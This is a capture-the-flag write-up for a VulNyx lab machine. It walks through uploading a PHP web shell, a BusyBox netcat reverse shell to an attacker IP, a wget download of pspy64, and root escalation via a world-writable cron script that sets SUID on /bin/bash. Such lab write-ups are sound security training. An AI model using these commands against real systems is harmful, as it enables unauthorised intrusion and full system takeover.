





# diff3r3nts3c

## Executive Summary

| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| diff3r3nts3c | HackCommander | Low | VulNyx |

**Summary:** The diff3r3nts3c machine exposed a single Apache web service on port 80 hosting a Diff3r3ntS3c themed site with reachable upload functionality. Directory enumeration revealed common static pages plus an `uploads` directory, and interaction with the web application allowed uploading a PHP compatible payload into a numbered upload folder. Accessing `s.phtml` with a `cmd` parameter confirmed command execution as the local user `candidate`, and the same web shell was used to trigger a BusyBox netcat reverse shell. Once inside, cron enumeration revealed a root scheduled task executing `/bin/sh /home/candidate/.scripts/makeBackup.sh` every minute. The backup script compressed `/var/www/html/uploads/` into the candidate backup directory, but the script itself was world writable and owned by `candidate`. Process monitoring with `pspy64` confirmed root execution of the script, so its contents were replaced with `chmod 4755 /bin/bash`. When cron executed the modified script, `/bin/bash` became SUID root, allowing `candidate` to launch `/bin/bash -p`, convert the effective root context into a full root identity through PHP `posix_setuid` and `posix_setgid`, and retrieve both flags.

---

## Reconnaissance

The assessment began by locating the target host and then enumerating its TCP attack surface.

1. An Nmap host discovery sweep identified the machine at `192.168.56.129`:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ nmap -sn 192.168.56.0/24   
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-16 02:17 -0400
Nmap scan report for 192.168.56.1 (192.168.56.1)
Host is up (0.00044s latency).
MAC Address: 0A:00:27:00:00:00 (Unknown)
Nmap scan report for 192.168.56.100 (192.168.56.100)
Host is up (0.0049s latency).
MAC Address: 08:00:27:C1:85:DA (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.129 (192.168.56.129)
Host is up (0.0017s latency).
MAC Address: 08:00:27:50:05:3F (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.104 (192.168.56.104)
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 6.09 seconds
                                                                                                                      
┌──(kali㉿kali)-[~/nyx]
└─$ ip=192.168.56.129
```

2. A full TCP scan showed that only HTTP was exposed:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ nmap -p- -T4 --min-rate=5000 -Pn $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-16 02:17 -0400
Nmap scan report for 192.168.56.129 (192.168.56.129)
Host is up (0.00016s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 08:00:27:50:05:3F (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 6.12 seconds
```

3. Service detection confirmed Apache 2.4.57 and the application title `Diff3r3ntS3c`:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ nmap -p 80 -sCV $ip -T4 -Pn         
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-16 02:18 -0400
Nmap scan report for 192.168.56.129 (192.168.56.129)
Host is up (0.00045s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Diff3r3ntS3c
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 08:00:27:50:05:3F (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.21 seconds
```

---

## Web Enumeration

4. Gobuster was used with common web paths and extensions to identify reachable content:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ gobuster dir -u http://$ip/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --random-agent -x php,txt,html               
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.129/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              Mozilla/5.0 (Macintosh; U; PPC Mac OS X; de-de) AppleWebKit/412.6.2 (KHTML, like Gecko) Safari/412.2.2
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.hta                 (Status: 403) [Size: 279]
.hta.php             (Status: 403) [Size: 279]
.hta.html            (Status: 403) [Size: 279]
.htaccess            (Status: 403) [Size: 279]
.htaccess.php        (Status: 403) [Size: 279]
.htaccess.html       (Status: 403) [Size: 279]
.htpasswd.txt        (Status: 403) [Size: 279]
.htaccess.txt        (Status: 403) [Size: 279]
.hta.txt             (Status: 403) [Size: 279]
.htpasswd            (Status: 403) [Size: 279]
.htpasswd.php        (Status: 403) [Size: 279]
.htpasswd.html       (Status: 403) [Size: 279]
assets               (Status: 301) [Size: 317] [--> http://192.168.56.129/assets/]
elements.html        (Status: 200) [Size: 16634]
generic.html         (Status: 200) [Size: 2750]
images               (Status: 301) [Size: 317] [--> http://192.168.56.129/images/]
index.html           (Status: 200) [Size: 5842]
index.html           (Status: 200) [Size: 5842]
server-status        (Status: 403) [Size: 279]
uploads              (Status: 301) [Size: 318] [--> http://192.168.56.129/uploads/]
Progress: 19000 / 19000 (100.00%)
===============================================================
Finished
===============================================================
```

The scan found the application assets, standard pages, and an exposed `uploads` directory.

5. Browser interaction with the site showed the front page and upload workflow that accepted files into the web accessible upload area:






6. A PHP compatible payload was uploaded into a numbered folder under `uploads`, after which the application displayed the uploaded content and location:







---

## Initial Access

### Web Shell to Reverse Shell

7. The uploaded `s.phtml` payload was tested by passing `id` through the `cmd` parameter:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ curl -s "http://192.168.56.129/uploads/22/s.phtml?cmd=id"     
uid=1000(candidate) gid=1000(candidate) groups=1000(candidate)
```

The web shell executed as user `candidate`, which meant the upload path provided direct command execution in a local user context.

8. A BusyBox netcat payload was triggered through the same web shell to create a reverse shell:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ curl -s "http://192.168.56.129/uploads/22/s.phtml?cmd=busybox%20nc%20192.168.56.104%201337%20-e%20/bin/sh"
```

9. Penelope received the reverse connection on port 1337, and the shell was stabilized into a more usable bash TTY:

```bash
┌──(kali㉿kali)-[~]
└─$ penelope -p 1337 
[+] Listening for reverse shells on 0.0.0.0:1337 -> 127.0.0.1 • 10.0.2.15 • 192.168.56.104
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] => Diff3r3ntS3c 192.168.56.129 Linux-x86_64 👤 candidate(1000) 😍 Session ID <1>
[-] Cannot deploy agent with remote Python. Select an action below:

  1) Upload https://github.com/astral-sh/python-build-standalone/releases/download/20260610/cpython-3.13.14+20260610-x86_64-unknown-linux-musl-install_only_stripped.tar.gz
  2) Upload local Standalone Python binary
  3) Specify remote Standalone Python binary path
  4) None of the above

[?] Select action: 4
[-] Cannot deploy agent...
[+] Readline support enabled
[+] Interacting with session [1] • Readline • Menu key Ctrl-D ⇐
[+] Session log: /home/kali/.penelope/sessions/Diff3r3ntS3c~192.168.56.129-Linux-x86_64/2026_08_16-02_50_18-164-candidate(1000).log
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
script -qc /bin/bash /dev/null
candidate@Diff3r3ntS3c:/var/www/html/uploads/22$ 
zsh: suspended  penelope -p 1337
                                                                                                                      
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg
[1]  + continued  penelope -p 1337


candidate@Diff3r3ntS3c:/var/www/html/uploads/22$ export TERM=xterm
export TERM=xterm
candidate@Diff3r3ntS3c:/var/www/html/uploads/22$ export SHELL=/bin/bash
export SHELL=/bin/bash
candidate@Diff3r3ntS3c:/var/www/html/uploads/22$ stty rows 28 cols 117
stty rows 28 cols 117
```

---

## Privilege Escalation

### Root Cron Job with Writable Script

10. Internal enumeration of `/etc/crontab` revealed a root cron job executing a script inside the candidate home directory every minute:

```bash
candidate@Diff3r3ntS3c:/home/candidate$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6    * * 7   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
52 6    1 * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
#
* * * * * root /bin/sh /home/candidate/.scripts/makeBackup.sh
```

11. The script contents showed a backup routine, and its file permissions revealed that it was writable by everyone:

```bash
candidate@Diff3r3ntS3c:/home/candidate$ cat /home/candidate/.scripts/makeBackup.sh
#!/bin/bash

# Source folder to be backed up
source_folder="/var/www/html/uploads/"

# Destination folder for the backup
backup_folder="/home/candidate/.backups/"

# Create backup folder if it doesn't exist
mkdir -p "$backup_folder"

# Backup file name
backup_file="${backup_folder}backup.tar.gz"

# Create a compressed tar archive of the source folder
tar -czf "$backup_file" -C "$source_folder" .
candidate@Diff3r3ntS3c:/home/candidate$ ls -la /home/candidate/.scripts/makeBackup.sh
-rwxrwxrwx 1 candidate candidate 399 Mar 28  2024 /home/candidate/.scripts/makeBackup.sh
```

12. A local HTTP server was started on the attacker machine to transfer `pspy64` for process monitoring:

```bash
┌──(kali㉿kali)-[/opt]
└─$ python3 -m http.server 1111       
Serving HTTP on 0.0.0.0 port 1111 (http://0.0.0.0:1111/) ...
192.168.56.129 - - [16/Aug/2026 02:55:14] "GET /pspy/pspy64 HTTP/1.1" 200 -
```

13. The binary was downloaded and executed on the target:

```bash
candidate@Diff3r3ntS3c:/home/candidate$ wget http://192.168.56.104:1111/pspy/pspy64
--2026-08-16 08:55:20--  http://192.168.56.104:1111/pspy/pspy64
Connecting to 192.168.56.104:1111... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: 'pspy64'

pspy64                        100%[==============================================>]   2.96M  --.-KB/s    in 0.06s   

2026-08-16 08:55:20 (51.0 MB/s) - 'pspy64' saved [3104768/3104768]

candidate@Diff3r3ntS3c:/home/candidate$ chmod +x pspy64
candidate@Diff3r3ntS3c:/home/candidate$ ./pspy64
```

14. Process monitoring confirmed that root executed the writable backup script every minute:

```bash
2026/08/16 08:56:01 CMD: UID=0     PID=1224   | /bin/sh -c /bin/sh /home/candidate/.scripts/makeBackup.sh 
2026/08/16 08:56:01 CMD: UID=0     PID=1225   | /bin/sh /home/candidate/.scripts/makeBackup.sh 
2026/08/16 08:56:01 CMD: UID=0     PID=1226   | /bin/sh /home/candidate/.scripts/makeBackup.sh 
2026/08/16 08:56:01 CMD: UID=0     PID=1227   | tar -czf /home/candidate/.backups/backup.tar.gz -C /var/www/html/uploads/ . 
2026/08/16 08:56:01 CMD: UID=0     PID=1228   | /bin/sh -c gzip 
```

15. The writable script was replaced with a command that set the SUID bit on `/bin/bash`. After cron executed it, `/bin/bash -p` provided an effective root shell, which was converted into a full root shell and used to read the flags:

```bash
candidate@Diff3r3ntS3c:/home/candidate$ echo -n 'chmod 4755 /bin/bash' > /home/candidate/.scripts/makeBackup.sh
candidate@Diff3r3ntS3c:/home/candidate$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1265648 Apr 23  2023 /bin/bash
candidate@Diff3r3ntS3c:/home/candidate$ /bin/bash -p
bash-5.2# id
uid=1000(candidate) gid=1000(candidate) euid=0(root) groups=1000(candidate)
bash-5.2# php -r 'posix_setgid(0); posix_setuid(0); system("/bin/bash");'
root@Diff3r3ntS3c:/home/candidate# id
uid=0(root) gid=0(root) groups=0(root),1000(candidate)
root@Diff3r3ntS3c:/home/candidate# su -
root@Diff3r3ntS3c:~# id;whoami;hostname
uid=0(root) gid=0(root) grupos=0(root)
root
Diff3r3ntS3c
root@Diff3r3ntS3c:~# cat /home/candidate/user.txt /root/root.txt 


```

---

## Attack Chain Summary

1. **Reconnaissance**: Host discovery identified `192.168.56.129`, and TCP scanning showed a single Apache HTTP service hosting the Diff3r3ntS3c web application.

2. **Vulnerability Discovery**: Directory enumeration revealed an `uploads` path, and browser interaction showed that an uploaded `.phtml` payload could be reached and executed server side.

3. **Exploitation**: The uploaded web shell accepted a `cmd` parameter, confirmed execution as `candidate`, and delivered a BusyBox netcat reverse shell.

4. **Internal Enumeration**: Cron and process monitoring revealed that root executed `/home/candidate/.scripts/makeBackup.sh` every minute, while the script was world writable.

5. **Privilege Escalation**: The script was replaced with `chmod 4755 /bin/bash`, allowing `/bin/bash -p` to spawn a privileged shell and complete the transition to root.
